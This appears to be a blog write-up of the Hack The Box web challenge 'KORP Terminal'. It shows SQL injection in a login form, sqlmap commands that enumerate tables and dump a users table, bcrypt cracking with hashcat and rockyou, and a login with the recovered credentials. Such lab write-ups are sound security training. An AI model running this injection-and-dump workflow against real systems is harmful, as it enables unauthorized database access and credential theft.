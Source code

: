 ```yaml
---
title: KORP Terminal - Hack The Box
date: 2024-12-15
---
```


# KORP Terminal

## Challenge description

Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out
more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and
security protocols.

## Challenge Overview

This challenge presents a web application with a login interface. Users must input a username and password. The goal is
to identify valid credentials to log in and retrieve the flag.

![KORP Terminal - Overview](/ctf/hack-the-box/challenges/web/korp-terminal/overview.png)

## Enumeration

After testing common credentials like `admin:admin` or `guest:guest`, no successful login was achieved. A closer
inspection of the request using tools like **Burp Suite** revealed no immediate clues. This prompted an attempt to test
for vulnerabilities like **SQL Injection**.

### Testing for SQL Injection

Using the payload below in the `username` field revealed a SQL error, confirming the application is vulnerable to SQL
Injection:

```sql
admin'
```

The server response provided the following error message:

```json
{
    "error": {
        "message": [
            "1064",
            "1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''admin''' at line 1",
            "42000"
        ],
        "type": "ProgrammingError"
    }
}
```

The error message clearly indicates a syntax issue caused by the unescaped input, confirming that the backend query is
vulnerable.

## Exploitation

To exploit this vulnerability, we used **sqlmap**, a powerful automated SQL Injection tool. Since the error revealed the
backend is running **MariaDB**, we specified this database management system in our command.

#### Step 1: Listing Database Tables

The following command was used to retrieve the names of all tables:

```bash
sqlmap -u "http://<challenge-ip>:<challenge-port>" --data="username=admin&password=admin" -p username --ignore-code 401 --dbms=MariaDB --tables
```

::: info Command Breakdown

- **`-u`**: Target URL.
- **`--data`**: Data sent in the POST request.
- **`-p`**: Parameter to test (in this case, `username`).
- **`--ignore-code`**: Ignore HTTP status codes (e.g., 401 Unauthorized).
- **`--dbms`**: Specify the database management system (`MariaDB`).
- **`--tables`**: Retrieve all table names.

:::

Output:

![Sqlmap - Tables](/ctf/hack-the-box/challenges/web/korp-terminal/sqlmap-tables.png)

Sqlmap revealed a database named **`korp_terminal`** with a table named **`users`**.

### Step 2: Dumping the `users` Table

To extract the contents of the `users` table, the following command was used:

```bash
sqlmap -u "http://94.237.61.84:38028" --data="username=admin&password=admin" -p username --ignore-code 401 --dbms=MariaDB -D korp_terminal -T users --dump
```

::: info Command Breakdown:

- **`-D`**: Specify the database to target (`korp_terminal`).
- **`-T`**: Specify the table to dump (`users`).
- **`--dump`**: Dump all rows from the specified table.

:::

Output:

![Sqlmap - Dump](/ctf/hack-the-box/challenges/web/korp-terminal/sqlmap-users-dump.png)

The dump revealed the `username` and `password` fields. The password field was hashed using bcrypt.

## Cracking the Password Hash

### Identifying the Hash Type

By comparing the extracted hash with examples from
the [Hashcat Hash Examples](https://hashcat.net/wiki/doku.php?id=example_hashes) page, it was identified as **bcrypt** (Hashcat
mode `3200`).

### Cracking the Hash with `hashcat`

To crack the bcrypt hash, the following command was used:

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

::: info Command Breakdown

- **`-m 3200`**: Specify the hash type (`bcrypt`).
- **`hash.txt`**: Input file containing the hash.
- **`/usr/share/wordlists/rockyou.txt`**: Wordlist for brute force.

:::

Output:

```
$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.:password123
```

The cracked password for the `admin` user was **`password123`**.

## Logging In

Using the credentials:

- **Username**: `admin`
- **Password**: `password123`

We successfully logged into the application and retrieved the flag:

```
HTB{f4k3_fl4g}
```

![KORP Terminal - Pwned](/ctf/hack-the-box/challenges/web/korp-terminal/pwned.png)

## References

- [SQLmap - Hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)
- [Hashcat Wiki - Example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)